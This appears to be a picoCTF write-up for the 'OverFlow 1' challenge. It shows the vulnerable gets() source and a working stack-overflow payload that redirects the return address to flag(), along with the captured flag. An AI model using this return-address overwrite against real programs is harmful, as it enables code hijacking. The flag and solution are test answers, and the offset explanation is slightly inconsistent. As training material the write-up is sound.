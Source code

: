 # OverFlow 1 - Points: 150
<b>Description : </b>You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this program? You can find it in /problems/overflow-1_0_48b13c56d349b367a4d45d7d1aa31780 on the shell server. Source.<br>
<b>Hints : </b>Take control that return address. Make sure your address is in Little Endian.
# Solved
In this cases we already see we need to solve some binary exploitation
```cpp
void vuln(){
  char buf[BUFFSIZE];
  gets(buf);

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}
int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();
  return 0;
}
```
We already see, we need jump address into <b>flag()</b> to get flag.
```cpp
void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}
```
To do this, im must using <b>GDB</b> Debugger in Server shell, so i note this
```
void flag() = 0x80485e6
```
I try bufferoverflow with 76 byte, still not working. Then i try to append it into 80 byte and this is what i got <b>(python -c "print 'A' * 80") | ./vuln</b>
```
Woah, were jumping to 0x41414141 !
Segmentation fault (core dumped)
```
Jackpot! We get the address to set into <b>flag</b> function. But before we jump into <b>flag</b> address you need struct to do that, simply code with this!
```python
import struct
print struct.pack("<I", 0x80485e6) # Flag address
```
and final result just run simple command and got flag
```
(python -c "r = 'A' * 76; r += '\xe6\x85\x04\x08'; print r") | ./vuln
``
Flag : <b>picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5c0178710}</b>
